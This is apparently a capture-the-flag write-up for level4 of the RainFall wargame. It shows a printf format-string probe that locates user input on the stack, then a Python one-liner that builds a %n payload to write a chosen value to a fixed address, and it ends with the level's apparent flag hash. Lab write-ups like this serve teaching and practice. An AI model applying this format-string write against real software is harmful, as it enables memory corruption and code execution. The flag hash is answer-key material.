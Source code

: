 ```
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
```

local_20c have a size of 520 but fgets let us only read 0x200 (512) char

level4@RainFall:~$ ./level4 
AAAAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x 
AAAAAA b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 41414141 25204141 78252078 20782520 25207825 78252078 20782520

A is in 12nd argument


python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' > input.txt

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a